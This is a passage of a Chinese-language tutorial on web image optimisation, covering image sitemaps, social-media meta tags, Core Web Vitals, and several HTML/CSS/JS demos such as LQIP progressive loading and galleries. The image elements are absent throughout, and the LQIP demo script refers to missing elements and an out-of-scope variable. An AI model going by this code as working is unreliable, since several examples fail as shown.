      <image:caption>苹果 iPhone 15 Pro 蓝色钛金属版本正面视角产品照片</image:caption>
      <image:geo_location>中国北京</image:geo_location>
      <image:license>https://example.com/license</image:license>
    </image:image>

    <!-- 同一页面可包含多张图片 -->
    <image:image>
      <image:loc>https://cdn.example.com/products/iphone-15-pro-blue-detail.webp</image:loc>
      <image:title>iPhone 15 Pro 细节特写</image:title>
      <image:caption>Action 按钮和 USB-C 接口细节展示</image:caption>
    </image:image>
  </url>

  <!-- 文章页 + 配图 -->
  <url>
    <loc>https://example.com/blog/best-running-shoes-2024</loc>
    <image:image>
      <image:loc>https://cdn.example.com/blog/best-running-shoes-cover.webp</image:loc>
      <image:title>2024 最佳跑鞋评测封面</image:title>
      <image:caption>10 款主流跑鞋横评对比测试结果</image:caption>
    </image:image>
  </url>

</urlset>
```

::: tip 提交方式
1. 将 sitemap-image.xml 上传到网站根目录
2. 在 robots.txt 中声明：`Sitemap: https://example.com/sitemap-image.xml`
3. 在 Google Search Console 和百度站长平台提交
:::

### Open Graph / Twitter Card 标签模板

社交媒体分享时的图像展示效果直接影响点击率（CTR）。配置好 OG 标签和 Twitter Card：

```html
<head>
  <!-- ===== Open Graph 协议（Facebook、微信、LinkedIn 等）===== -->
  <meta property="og:type" content="website" />
  <meta property="og:url" content="https://example.com/article/image-seo-guide" />
  <meta property="og:title" content="2024 图像 SEO 完全指南 — 从 Alt 到 Schema" />
  <meta property="og:description" content="掌握图像优化的核心技术，提升 Google 图片搜索排名和社交媒体分享效果。" />
  
  <!-- OG 图像要求：
       - 推荐尺寸：1200 x 630 px
       - 文件大小：< 8MB
       - 格式：PNG、JPEG、WebP
       - 必须使用绝对 URL
  -->
  <meta property="og:image" content="https://cdn.example.com/og/image-seo-guide-1200x630.webp" />
  <meta property="og:image:width" content="1200" />
  <meta property="og:image:height" content="630" />
  <meta property="og:image:alt" content="图像 SEO 指南封面图：展示了从文件命名到结构化数据的优化流程" />
  <meta property="og:image:type" content="image/webp" />
  <meta property="og:locale" content="zh_CN" />

  <!-- ===== Twitter Card ===== -->
  <meta name="twitter:card" content="summary_large_image" />  <!-- 大图模式 -->
  <meta name="twitter:site" content="@your_handle" />
  <meta name="twitter:creator" content="@author_handle" />
  <meta name="twitter:title" content="2024 图像 SEO 完全指南" />
  <meta name="twitter:description" content="掌握图像优化核心技术，提升图片搜索排名。" />
  <meta name="twitter:image" content="https://cdn.example.com/twitter/image-seo-guide-1200x600.webp" />
  
  <!-- Twitter 图像建议尺寸：1200 x 600 px -->
</head>
```

**社交平台图像规格速查：**

| 平台 | 推荐尺寸 | 最大文件 | 格式 |
|------|----------|----------|------|
| **Open Graph (FB/微信)** | 1200 × 630 px | 8 MB | PNG/JPEG/WebP |
| **Twitter Large Image** | 1200 × 600 px | 5 MB | PNG/JPEG/WebP |
| **LinkedIn Post** | 1200 × 627 px | 5 MB | PNG/JPEG |
| **小红书** | 1080 × 1440 px | 10 MB | JPEG/PNG |

### Core Web Vitals 与图像的关系

图像是影响 **Core Web Vitals**（核心 Web 指标）最重要的因素之一，特别是 **LCP（Largest Contentful Paint）** 和 **CLS（Cumulative Layout Shift）**。

#### LCP（最大内容绘制）

LCP 衡量页面中**最大可见元素**的渲染时间，通常是首屏大图。

```html
<!-- ✅ 优化 LCP 的图像策略 -->

<!-- 1. 预加载 LCP 图像资源 -->
<link rel="preload" as="image" href="hero-lcp-image.webp" type="image/webp" />

<!-- 2. 使用高优先级获取 -->


<!-- 3. 关键 CSS 内联，避免阻塞渲染 -->
<style>
  .hero-lcp {
    position: relative;
    width: 100%;
    aspect-ratio: 16 / 9;  /* 固定宽高比，防止 CLS */
    overflow: hidden;
  }
  .hero-lcp img {
    position: absolute;
    top: 0;
    left: 0;
    width: 100%;
    height: 100%;
    object-fit: cover;
  }
</style>
```

#### CLS（累积布局偏移）

CLS 衡量页面加载过程中**视觉稳定性**，未设置尺寸的图像是导致 CLS 的首要原因。

```javascript
/**
 * CLSMonitor — 图像导致的布局偏移监控工具
 *
 * 用于检测和报告由图像引起的 CLS 问题
 */
class CLSMonitor {
  constructor() {
    this.clsEntries = []
    this.init()
  }

  init() {
    // 使用 PerformanceObserver 监听 LayoutShift
    const observer = new PerformanceObserver((list) => {
      for (const entry of list.getEntries()) {
        if (!entry.hadRecentInput) { // 排除用户交互引起的偏移
          this.clsEntries.push({
            value: entry.value,
            sources: entry.sources?.filter(s =>
              s.node?.tagName === 'IMG'
            ),
            startTime: entry.startTime,
          })
        }
      }
    })

    observer.observe({ type: 'layoutshift', buffered: true })

    // 页面加载完成后输出报告
    window.addEventListener('load', () => {
      setTimeout(() => this.report(), 100)
    })
  }

  report() {
    const totalCLS = this.clsEntries.reduce((sum, e) => sum + e.value, 0)
    const imageRelated = this.clsEntries.filter(e =>
      e.sources && e.sources.length > 0
    )

    console.group('📊 Image CLS Report')
    console.log(`Total CLS: ${totalCLS.toFixed(4)}`)
    console.log(`Image-related shifts: ${imageRelated.length}`)
    
    if (imageRelated.length > 0) {
      console.warn('⚠️ 以下图像导致了布局偏移：')
      imageRelated.forEach((entry, i) => {
        console.log(`  [${i + 1}] CLS: ${entry.value.toFixed(4)}`)
        entry.sources.forEach(src => {
          console.log(
            `      → <${src.node?.tagName.toLowerCase()}> ` +
            `${src.node?.src?.slice(-40)} ` +
            `[${src.currentRect?.width}×${src.currentRect?.height}]`
          )
        })
      })
      
      console.info('💡 修复建议：为以上图像添加 width/height 属性或使用 aspect-ratio')
    } else {
      console.log('✅ 未检测到图像相关的布局偏移')
    }
    
    console.groupEnd()
  }
}

// 页面中启用监控
if ('PerformanceObserver' in window) {
  new CLSMonitor()
}
```

::: warning 目标值
- **LCP ≤ 2.5 秒**（Good）
- **CLS ≤ 0.1**（Good）
- 图像是这两个指标的最大影响因素之一，务必优先优化
:::

## 实战案例集

<h4>040-image-lqip.html</h4>

```html
<!DOCTYPE html>
<html lang="zh-CN">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>【40】LQIP 渐进式加载效果</title>
  <!--
    来源: HTML5基础知识/5-图像.md
    知识点: Low Quality Image Placeholder 模糊→清晰过渡效果
  -->
  <style>
    * { margin: 0; padding: 0; box-sizing: border-box; }
    body {
      font-family: -apple-system, BlinkMacSystemFont, 'Segoe UI', sans-serif;
      padding: 20px; background: linear-gradient(135deg, #1a1a2e, #16213e);
      color: #e0e0e0; min-height: 100vh;
    }
    .container { max-width: 1100px; margin: 0 auto; }
    .header {
      text-align: center; padding: 24px; background: linear-gradient(135deg, #00cec9, #0984e3);
      color: white; border-radius: 12px; margin-bottom: 24px;
    }
    .header h1 { font-size: 22px; margin-bottom: 6px; }
    .header p { opacity: 0.9; font-size: 14px; }

    .card {
      background: rgba(255,255,255,0.05); border: 1px solid rgba(255,255,255,0.1);
      border-radius: 12px; padding: 24px; margin-bottom: 20px; backdrop-filter: blur(10px);
    }
    .card-title {
      font-size: 15px; font-weight: 600; color: #81ecec;
      border-left: 3px solid #00cec9; padding-left: 10px; margin-bottom: 16px;
    }

    .info-banner {
      background: rgba(0,206,201,0.1); border: 1px solid rgba(0,206,201,0.25);
      border-radius: 6px; padding: 12px 16px; font-size: 13px; line-height: 1.6;
      color: #81ecec; margin-bottom: 16px;
    }

    /* LQIP 展示网格 */
    .gallery-grid { display: grid; grid-template-columns: repeat(auto-fill, minmax(280px, 1fr)); gap: 20px; }

    .gallery-item {
      background: rgba(0,0,0,0.3); border-radius: 12px; overflow: hidden;
      position: relative;
    }

    .lqip-container {
      position: relative; width: 100%; aspect-ratio: 4/3; overflow: hidden;
    }

    .lqip-container .thumb-blur {
      position: absolute; inset: 0; background-size: cover; background-position: center;
      filter: blur(20px) saturate(1.5); transform: scale(1.1);
      transition: opacity 0.6s ease, visibility 0.6s ease;
    }

    .lqip-container .full-image {
      position: absolute; inset: 0; width: 100%; height: 100%;
      object-fit: cover; opacity: 0; transition: opacity 0.6s ease;
    }

    .lqip-container .full-image.loaded {
      opacity: 1;
    }

    .lqip-container .full-image.loaded ~ .thumb-blur {
      opacity: 0; visibility: hidden;
    }

    /* 加载指示器 */
    .loading-bar {
      position: absolute; bottom: 0; left: 0; height: 3px;
      background: linear-gradient(90deg, #00cec9, #0984e3);
      transition: width 0.3s ease; width: 0%;
    }

    .item-info {
      padding: 12px 16px; display: flex; justify-content: space-between;
      align-items: center;
    }
    .item-name { font-size: 13px; font-weight: 600; }
    .item-status {
      font-size: 11px; padding: 3px 10px; border-radius: 10px; font-weight: 600;
    }
    .item-status.loading { background: rgba(245,158,11,0.2); color: #fbbf24; }
    .item-status.done { background: rgba(34,197,94,0.2); color: #4ade80; }

    /* 对比展示 */
    .compare-section { margin-top: 24px; }
    .compare-row { display: grid; grid-template-columns: 1fr 1fr; gap: 20px; }
    @media (max-width: 700px) { .compare-row { grid-template-columns: 1fr; } }

    .compare-item {
      background: rgba(0,0,0,0.3); border-radius: 10px; overflow: hidden;
    }
    .compare-header {
      padding: 10px 16px; font-size: 13px; font-weight: 600; text-align: center;
    }
    .compare-header.bad { background: rgba(239,68,68,0.15); color: #fca5a5; }
    .compare-header.good { background: rgba(34,197,94,0.15); color: #86efac; }
    .compare-body {
      aspect-ratio: 16/10; display: flex; align-items: center; justify-content: center;
      background: #0a0a1a;
    }
    .compare-body img { max-width: 100%; max-height: 100%; object-fit: contain; border-radius: 4px; }

    .controls { display: flex; gap: 10px; flex-wrap: wrap; margin-bottom: 20px; }
    .btn {
      padding: 9px 20px; border: none; border-radius: 6px; cursor: pointer;
      font-size: 13px; font-weight: 600; transition: all 0.2s;
    }
    .btn-teal { background: #00cec9; color: #1a1a2e; }
    .btn-teal:hover { background: #00b5b0; transform: translateY(-1px); }
    .btn-outline {
      background: transparent; border: 1px solid rgba(0,206,201,0.4);
      color: #81ecec;
    }
    .btn-outline:hover { background: rgba(0,206,201,0.1); }

    /* 流程说明 */
    .flow-steps { display: flex; gap: 12px; margin-top: 16px; flex-wrap: wrap; justify-content: center; }
    .step {
      background: rgba(0,0,0,0.3); border: 1px solid rgba(255,255,255,0.1);
      border-radius: 8px; padding: 12px 16px; text-align: center; min-width: 130px;
    }
    .step-num {
      width: 24px; height: 24px; border-radius: 50%; background: #00cec9;
      color: #1a1a2e; font-size: 12px; font-weight: 700;
      display: inline-flex; align-items: center; justify-content: center; margin-bottom: 6px;
    }
    .step-text { font-size: 11px; color: #888; line-height: 1.4; }

    .compat-note {
      background: rgba(9,132,227,0.1); border: 1px solid rgba(9,132,227,0.25);
      border-radius: 6px; padding: 10px 14px; font-size: 12px; color: #74c0fc;
      margin-top: 16px;
    }
  </style>
</head>
<body>
  <div class="container">
    <div class="header">
      <h1>🌫️ LQIP 渐进式加载效果</h1>
      <p>Low Quality Image Placeholder — 模糊到清晰的优雅过渡体验</p>
    </div>

    <div class="card">
      <div class="card-title">🎨 LQIP 效果画廊</div>
      <div class="info-banner">
        💡 <strong>LQIP (Low Quality Image Placeholder)</strong> 是一种性能优化技术：<br>
        ① 先加载一张极小的模糊缩略图（通常 &lt; 2KB）作为占位 → ② 用户立即看到内容轮廓<br>
        ③ 后台加载高清原图 → ④ 高清图就绪后平滑过渡（模糊→清晰），用户几乎无感知等待。
      </div>

      <div class="controls">
        <button class="btn btn-teal" onclick="loadAllImages()">▶ 加载全部高清图</button>
        <button class="btn btn-outline" onclick="resetGallery()">🔄 重置画廊</button>
        <button class="btn btn-outline" onclick="toggleComparison()">👁 切换对比视图</button>
      </div>

      <div class="gallery-grid" id="galleryGrid"></div>

      <!-- 流程说明 -->
      <div class="flow-steps">
        <div class="step"><div class="step-num">1</div><div class="step-text">页面加载<br/>显示模糊缩略图<br/>(~20px 极小尺寸)</div></div>
        <div class="step"><div class="step-num">2</div><div class="step-text">CSS blur(20px)<br/>放大 1.1x<br/>无缝填充容器</div></div>
        <div class="step"><div class="step-num">3</div><div class="step-text">后台请求<br/>高清原图<br/>(async decode)</div></div>
        <div class="step"><div class="step-num">4</div><div class="step-text">原图就绪<br/>opacity 过渡<br/>0→1 (0.6s)</div></div>
        <div class="step"><div class="step-num">5</div><div class="step-text">隐藏模糊层<br/>高清图完全显示<br/>用户体验流畅 ✓</div></div>
      </div>
    </div>

    <!-- 对比视图 -->
    <div class="card compare-section" id="compareSection" style="display:none;">
      <div class="card-title">⚖️ 有无 LQIP 对比</div>
      <div class="compare-row">
        <div class="compare-item">
          <div class="compare-header bad">❌ 无 LQIP (传统方式)</div>
          <div class="compare-body" id="compareBad">
            <span style="color:#666;font-size:13px;">点击 "加载全部高清图" 查看</span>
          </div>
        </div>
        <div class="compare-item">
          <div class="compare-header good">✅ LQIP 渐进式</div>
          <div class="compare-body" id="compareGood">
            <span style="color:#666;font-size:13px;">点击 "加载全部高清图" 查看</span>
          </div>
        </div>
      </div>
    </div>

    <div class="compat-note">
      ℹ️ LQIP 技术本身是纯 CSS/JS 方案，不依赖任何特殊 API，<strong>所有浏览器均支持</strong>。
      关键在于：小图用 CSS <code>filter:blur()</code> 放大填充，大图通过 <code>opacity</code> 过渡叠加。
    </div>
  </div>

  <script>
    // 图库数据
    const galleryItems = [
      { name: '山间晨雾', seed: 'lqip-mountain' },
      { name: '城市夜景', seed: 'lqip-city' },
      { name: '海滩日落', seed: 'lqip-beach' },
      { name: '森林小径', seed: 'lqip-forest' },
      { name: '星空银河', seed: 'lqip-stars' },
      { name: '沙漠驼队', seed: 'lqip-desert' },
    ];

    const galleryGrid = document.getElementById('galleryGrid');

    function initGallery() {
      galleryGrid.innerHTML = '';

      galleryItems.forEach((item, i) => {
        // 极小的缩略图 URL (用于模糊背景)
        const thumbURL = `https://picsum.photos/seed/${item.seed}-thumb/40/30`;
        // 高清原图 URL
        const fullURL = `https://picsum.photos/seed/${item.seed}-full/400/300`;

        const el = document.createElement('div');
        el.className = 'gallery-item';
        el.innerHTML = `
          <div class="lqip-container" id="lqip-${i}">
            <div class="thumb-blur" id="blur-${i}" style="background-image:url('${thumbURL}')"></div>
            
            <div class="loading-bar" id="bar-${i}"></div>
          </div>
          <div class="item-info">
            <span class="item-name">${item.name}</span>
            <span class="item-status loading" id="status-${i}">等待加载</span>
          </div>
        `;
        galleryGrid.appendChild(el);

        // 预加载缩略图
        const thumbImg = new Image();
        thumbImg.onload = () => {
          document.getElementById(`blur-${i}`).style.backgroundImage = `url('${thumbURL}')`;
        };
        thumbImg.src = thumbURL;
      });
    }

    function loadAllImages() {
      galleryItems.forEach((item, i) => {
        const fullImg = document.getElementById(`full-${i}`);
        const bar = document.getElementById(`bar-${i}`);
        const status = document.getElementById(`status-${i}`);

        if (fullImg.classList.contains('loaded')) return; // 已加载

        status.textContent = '加载中...';
        status.className = 'item-status loading';

        // 模拟进度条
        let progress = 0;
        const progressInterval = setInterval(() => {
          progress += Math.random() * 30;
          if (progress > 90) progress = 90;
          bar.style.width = `${progress}%`;
        }, 150);

        fullImg.onload = function() {
          clearInterval(progressInterval);
          bar.style.width = '100%';

          // 触发过渡
          requestAnimationFrame(() => {
            requestAnimationFrame(() => {
              fullImg.classList.add('loaded');
            });
          });

          status.textContent = '已完成 ✓';
          status.className = 'item-status done';

          // 进度条淡出
          setTimeout(() => { bar.style.opacity = '0'; }, 400);
        };

        fullImg.onerror = function() {
          clearInterval(progressInterval);
          status.textContent = '加载失败';
          status.className = 'item-status done';
          bar.style.background = '#ef4444';
          bar.style.width = '100%';
        };

        // 开始加载
        fullImg.src = fullImg.dataset.src;

        // 同时更新对比视图
        updateCompare(item, fullURL, i);
      });
    }

    function updateCompare(item, url, index) {
      if (index !== 0) return; // 只更新第一张做对比

      const badEl = document.getElementById('compareBad');
      const goodEl = document.getElementById('compareGood');

      // 无 LQIP：空白直到加载完成
      badEl.innerHTML = ``;

      // 有 LQIP：先显示模糊
      goodEl.innerHTML = `
        <div style="position:relative;width:100%;height:100%;">
          <div style="position:absolute;inset:0;background:url('${url.replace('-full','-thumb')}') center/cover;filter:blur(15px);transform:scale(1.1);transition:opacity 0.6s;" id="cmpBlur"></div>
          
        </div>`;
    }

    function resetGallery() {
      initGallery();
      document.getElementById('compareBad').innerHTML = '<span style="color:#666;font-size:13px;">点击 "加载全部高清图" 查看</span>';
      document.getElementById('compareGood').innerHTML = '<span style="color:#666;font-size:13px;">点击 "加载全部高清图" 查看</span>';
    }

    function toggleComparison() {
      const section = document.getElementById('compareSection');
      section.style.display = section.style.display === 'none' ? 'block' : 'none';
    }

    // 初始化
    initGallery();
  </script>
</body>
</html>
```

### 案例 1：英雄横幅（Hero Banner）

首屏大型横幅图片，需要高质量、响应式、性能优化。

```html
<!DOCTYPE html>
<html lang="zh-CN">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>英雄横幅示例</title>
    <style>
      .hero {
        position: relative;
        width: 100%;
        height: 60vh;
        min-height: 400px;
        overflow: hidden;
      }

      .hero-image {
        position: absolute;
        top: 0;
        left: 0;
        width: 100%;
        height: 100%;
        object-fit: cover;
        object-position: center;
      }

      .hero-content {
        position: relative;
        z-index: 1;
        max-width: 1200px;
        margin: 0 auto;
        padding: 60px 20px;
        color: white;
      }
    </style>
  </head>
  <body>
    <!-- 预加载关键图像 -->
    <link rel="preload" as="image" href="hero-mobile.jpg" media="(max-width: 600px)" />
    <link rel="preload" as="image" href="hero-desktop.jpg" media="(min-width: 601px)" />

    <header class="hero">
      <picture>
        <!-- 移动端：竖屏图片 -->
        <source
          media="(max-width: 600px)"
          srcset="hero-mobile.webp 1x, hero-mobile@2x.webp 2x"
          type="image/webp" />
        <source media="(max-width: 600px)" srcset="hero-mobile.jpg 1x, hero-mobile@2x.jpg 2x" />

        <!-- 平板：中等尺寸 -->
        <source
          media="(max-width: 1024px)"
          srcset="hero-tablet.webp 1x, hero-tablet@2x.webp 2x"
          type="image/webp" />
        <source media="(max-width: 1024px)" srcset="hero-tablet.jpg 1x, hero-tablet@2x.jpg 2x" />

        <!-- 桌面端：横屏图片 -->
        <source srcset="hero-desktop.webp 1x, hero-desktop@2x.webp 2x" type="image/webp" />

        
      </picture>

      <div class="hero-content">
        <h1>夏季新品上市</h1>
        <p>全场五折起，限时优惠</p>
        <a href="/products">立即选购</a>
      </div>
    </header>
  </body>
</html>
```

**关键优化点：**

- 使用 `preload` 预加载关键图像
- 根据设备提供不同尺寸和方向的图片（艺术指导）
- 多格式支持（WebP 优先）
- 设置 `fetchpriority="high"` 确保优先加载
- 使用 `object-fit: cover` 保持宽高比

### 案例 2：用户头像

用户头像需要处理默认图片、错误回退、加载状态等。

```html
<!DOCTYPE html>
<html lang="zh-CN">
  <head>
    <meta charset="UTF-8" />
    <title>用户头像示例</title>
    <style>
      .avatar {
        position: relative;
        display: inline-block;
      }

      .avatar-img {
        width: 48px;
        height: 48px;
        border-radius: 50%;
        object-fit: cover;
        background-color: #f0f0f0;
      }

      .avatar-large .avatar-img {
        width: 120px;
        height: 120px;
      }

      .avatar-small .avatar-img {
        width: 32px;
        height: 32px;
      }

      /* 加载失败时显示默认头像 */
      .avatar-img.error {
        display: none;
      }

      .avatar::after {
        content: "";
        position: absolute;
        top: 0;
        left: 0;
        width: 100%;
        height: 100%;
        border-radius: 50%;
        background-color: #e0e0e0;
        background-image: url('data:image/svg+xml,<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 24 24" fill="%23999"><path d="M12 12c2.21 0 4-1.79 4-4s-1.79-4-4-4-4 1.79-4 4 1.79 4 4 4zm0 2c-2.67 0-8 1.34-8 4v2h16v-2c0-2.66-5.33-4-8-4z"/></svg>');
        background-size: 60%;
        background-position: center;
        background-repeat: no-repeat;
        opacity: 0;
        transition: opacity 0.2s;
      }

      .avatar.has-error::after {
        opacity: 1;
      }
    </style>
  </head>
  <body>
    <!-- 基础头像 -->
    <div class="avatar">
      
    </div>

    <!-- 大头像 -->
    <div class="avatar avatar-large">
      
    </div>

    <!-- 小头像 -->
    <div class="avatar avatar-small">
      
    </div>

    <script>
      // 统一处理头像加载错误
      document.querySelectorAll(".avatar-img").forEach((img) => {
        img.addEventListener("error", function () {
          this.classList.add("error")
          this.parentElement.classList.add("has-error")
        })
      })
    </script>
  </body>
</html>
```

**关键优化点：**

- 固定宽高比，防止布局偏移
- 使用 `object-fit: cover` 确保图片不变形
- 加载失败时显示默认头像（SVG 图标）
- 小头像使用懒加载
- 设置 `width` 和 `height` 属性

### 案例 3：文章配图

文章中的配图需要考虑可访问性、响应式、懒加载等。

```html
<!DOCTYPE html>
<html lang="zh-CN">
  <head>
    <meta charset="UTF-8" />
    <title>文章配图示例</title>
    <style>
      .article {
        max-width: 800px;
        margin: 0 auto;
        padding: 20px;
        font-size: 16px;
        line-height: 1.8;
      }

      .article-figure {
        margin: 24px 0;
      }

      .article-image {
        display: block;
        width: 100%;
        height: auto;
        border-radius: 8px;
        cursor: pointer;
        transition: transform 0.2s;
      }

      .article-image:hover {
        transform: scale(1.02);
      }

      .article-caption {
        margin-top: 8px;
        font-size: 14px;
        color: #666;
        text-align: center;
      }

      /* 图片占位符，防止布局偏移 */
      .article-figure::before {
        content: "";
        display: block;
        padding-bottom: 56.25%; /* 16:9 宽高比 */
        background-color: #f5f5f5;
      }

      .article-image {
        margin-top: -56.25%;
      }

      /* 高清图加载完成后隐藏占位符（:has 已被所有现代浏览器支持） */
      .article-figure:has(.article-image.loaded)::before {
        display: none;
      }

      .article-figure:has(.article-image.loaded) .article-image {
        margin-top: 0;
      }
    </style>
  </head>
  <body>
    <article class="article">
      <h1>探索宇宙的奥秘</h1>
      <p>宇宙是人类永恒的谜题...</p>

      <!-- 文章配图 1 -->
      <figure class="article-figure">
        
        <figcaption class="article-caption">
          哈勃望远镜拍摄的深空图像，展示了数千个星系（图片来源：NASA）
        </figcaption>
      </figure>

      <p>这些星系距离我们数十亿光年...</p>

      <!-- 文章配图 2 -->
      <figure class="article-figure">
        
        <figcaption class="article-caption">银河系螺旋结构示意图</figcaption>
      </figure>
    </article>
  </body>
</html>
```

**关键优化点：**

- 使用 `<figure>` 和 `<figcaption>` 语义化标签
- 提供详细的 `alt` 文本，描述图片内容
- 响应式图像，按需加载不同尺寸
- 懒加载非关键图像
- 占位符防止布局偏移
- 图片来源和版权信息

### 案例 4：图库/画廊

图库需要优化加载性能、提供交互体验。

```html
<!DOCTYPE html>
<html lang="zh-CN">
  <head>
    <meta charset="UTF-8" />
    <title>图库示例</title>
    <style>
      .gallery {
        display: grid;
        grid-template-columns: repeat(auto-fill, minmax(200px, 1fr));
        gap: 16px;
        max-width: 1200px;
        margin: 0 auto;
        padding: 20px;
      }

      .gallery-item {
        position: relative;
        aspect-ratio: 1;
        overflow: hidden;
        border-radius: 8px;
        cursor: pointer;
        background-color: #f5f5f5;
      }

      .gallery-image {
        width: 100%;
        height: 100%;
        object-fit: cover;
        transition: transform 0.3s;
      }

      .gallery-item:hover .gallery-image {
        transform: scale(1.1);
      }

      .gallery-overlay {
        position: absolute;
        bottom: 0;
        left: 0;
        right: 0;
        padding: 12px;
        background: linear-gradient(transparent, rgba(0, 0, 0, 0.7));
        color: white;
        font-size: 14px;
        opacity: 0;
        transition: opacity 0.3s;
      }

      .gallery-item:hover .gallery-overlay {
        opacity: 1;
      }

      /* 骨架屏加载效果 */
      .gallery-item.loading::before {
        content: "";
        position: absolute;
        top: 0;
        left: 0;
        width: 100%;
        height: 100%;
        background: linear-gradient(90deg, #f0f0f0 25%, #e0e0e0 50%, #f0f0f0 75%);
        background-size: 200% 100%;
        animation: loading 1.5s infinite;
        z-index: 1;
      }

      @keyframes loading {
        0% {
          background-position: 200% 0;
        }
        100% {
          background-position: -200% 0;
        }
      }
    </style>
  </head>
  <body>
    <div class="gallery">
      <!-- 图片项 1 -->
      <article class="gallery-item loading">
        
        <div class="gallery-overlay">山间湖泊</div>
      </article>

      <!-- 图片项 2 -->
      <article class="gallery-item loading">
        
        <div class="gallery-overlay">日落海滩</div>
      </article>

      <!-- 更多图片... -->
    </div>

    <script>
      // 点击查看大图
      document.querySelectorAll(".gallery-item").forEach((item) => {
        item.addEventListener("click", function () {
          const img = this.querySelector(".gallery-image")
          const largeSrc = img.dataset.src
          // 打开灯箱或跳转到详情页
          console.log("查看大图:", largeSrc)
        })
      })
    </script>
  </body>
</html>
```

**关键优化点：**

- 使用网格布局，自适应列数
- 缩略图懒加载
- 骨架屏加载效果
- 悬停交互效果
- 点击查看大图功能
- 固定宽高比，防止布局偏移

### 案例 5：图标系统

使用 SVG 图标系统，支持多种颜色和尺寸。

```html
<!DOCTYPE html>
<html lang="zh-CN">
  <head>
    <meta charset="UTF-8" />
    <title>SVG 图标系统</title>
    <style>
      .icon {
        display: inline-block;
        width: 1em;
        height: 1em;
        fill: currentColor;
        vertical-align: middle;
      }

      .icon-large {
        font-size: 32px;
      }

      .button {
        display: inline-flex;
        align-items: center;
        gap: 8px;
        padding: 8px 16px;
        border: none;
        border-radius: 4px;
        background-color: #1890ff;
        color: white;
        cursor: pointer;
        font-size: 14px;
      }

      .button:hover {
        background-color: #40a9ff;
      }
    </style>
  </head>
  <body>
    <!-- SVG Sprite 方式 -->
    <svg style="display: none;">
      <symbol id="icon-home" viewBox="0 0 24 24">
        <path d="M10 20v-6h4v6h5v-8h3L12 3 2 12h3v8z" />
      </symbol>
      <symbol id="icon-search" viewBox="0 0 24 24">
        <path
          d="M15.5 14h-.79l-.28-.27A6.471 6.471 0 0 0 16 9.5 6.5 6.5 0 1 0 9.5 16c1.61 0 3.09-.59 4.23-1.57l.27.28v.79l5 4.99L20.49 19l-4.99-5zm-6 0C7.01 14 5 11.99 5 9.5S7.01 5 9.5 5 14 7.01 14 9.5 11.99 14 9.5 14z" />
      </symbol>
      <symbol id="icon-user" viewBox="0 0 24 24">
        <path
          d="M12 12c2.21 0 4-1.79 4-4s-1.79-4-4-4-4 1.79-4 4 1.79 4 4 4zm0 2c-2.67 0-8 1.34-8 4v2h16v-2c0-2.66-5.33-4-8-4z" />
      </symbol>
    </svg>

    <!-- 使用图标 -->
    <nav>
      <a href="/">
        <svg class="icon" aria-hidden="true">
          <use xlink:href="#icon-home"></use>
        </svg>
        首页
      </a>

      <button class="button">
        <svg class="icon" aria-hidden="true">
          <use xlink:href="#icon-search"></use>
        </svg>
        搜索
      </button>

      <svg class="icon icon-large" style="color: #52c41a;" aria-hidden="true">
        <use xlink:href="#icon-user"></use>
      </svg>
    </nav>
  </body>
</html>
```

**关键优化点：**

- 使用 SVG Sprite，减少 HTTP 请求
- 支持通过 `currentColor` 和 CSS 改变颜色
- 支持任意尺寸缩放
- 添加 `aria-hidden="true"` 提升可访问性
- 语义化使用，配合文本标签

### 案例 6：渐进式图像加载（LQIP）

渐进式图像加载（Progressive Image Loading）使用**低质量图像占位符（LQIP, Low-Quality Image Placeholder）**技术：先加载一个极小的模糊预览图（通常 20-50px 宽度的 Base64 内联图或极小 WebP），然后在高清图加载完成后平滑过渡。这种技术被 Medium、Unsplash 等网站广泛采用。

```html
<!DOCTYPE html>
<html lang="zh-CN">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>渐进式图像加载 - LQIP</title>
    <style>
      .progressive-image {
        position: relative;
        display: block;
        overflow: hidden;
        background-color: #f0f0f0;
      }

      /* LQIP 占位图：拉伸填满容器 */
      .progressive-image .lqip {
        position: absolute;
        top: 0;
        left: 0;
        width: 100%;
        height: 100%;
        object-fit: cover;
        filter: blur(20px); /* 关键：高斯模糊 */
        transform: scale(1.05); /* 防止模糊边缘露白 */
        opacity: 1;
        transition: opacity 0.4s ease-out;
      }

      /* 高清目标图：初始隐藏 */
      .progressive-image .target {
        position: relative;
        width: 100%;
        height: auto;
        display: block;
        opacity: 0;
        transition: opacity 0.5s ease-in;
      }

      /* 高清图加载完成：淡入并覆盖模糊占位 */
      .progressive-image.loaded .lqip {
        opacity: 0;
      }
      .progressive-image.loaded .target {
        opacity: 1;
      }

      /* 骨架屏：在 LQIP 加载前显示 */
      .progressive-image::before {
        content: "";
        display: block;
        padding-bottom: 56.25%; /* 16:9 宽高比占位 */
      }
      .progressive-image .lqip,
      .progressive-image .target {
        margin-top: -56.25%;
      }

      /* 加载进度指示器 */
      .progress-indicator {
        position: absolute;
        bottom: 12px;
        left: 50%;
        transform: translateX(-50%);
        background: rgba(0, 0, 0, 0.6);
        color: white;
        padding: 4px 12px;
        border-radius: 12px;
        font-size: 12px;
        z-index: 2;
        opacity: 0;
        transition: opacity 0.3s;
      }
      .progressive-image.loading .progress-indicator {
        opacity: 1;
      }

      /* 文章布局示例 */
      .article-content {
        max-width: 800px;
        margin: 0 auto;
        padding: 20px;
      }
    </style>
  </head>
  <body>
    <article class="article-content">
      <h1>探索宇宙的奥秘</h1>
      <p>宇宙是人类永恒的谜题，从古老的仰望星空到现代的深空探测...</p>

      <!-- 渐进式图像加载组件 -->
      <figure class="progressive-image" style="max-width: 800px;">
        <!-- 极小的 Base64 内联 LQIP（约 500B-2KB） -->
        

        <!-- 高清目标图 -->
        

        <span class="progress-indicator">正在加载高清图片...</span>

        <figcaption style="margin-top: 8px; font-size: 14px; color: #666; text-align: center;">
          哈勃望远镜拍摄的深空图像（图片来源：NASA）
        </figcaption>
      </figure>

      <p>这些星系距离我们数十亿光年，每一个都包含数千亿颗恒星...</p>
    </article>

    <script>
      /**
       * 渐进式图像加载管理器
       * 负责监听高清图加载状态并触发过渡动画
       */
      class ProgressiveImageLoader {
        constructor() {
          this.init()
        }

        init() {
          // 查找所有渐进式图像容器
          const containers = document.querySelectorAll('.progressive-image')
          containers.forEach((container) => this.setupImage(container))
        }

        setupImage(container) {
          const targetImg = container.querySelector('.target')
          if (!targetImg) return

          // 标记为加载中
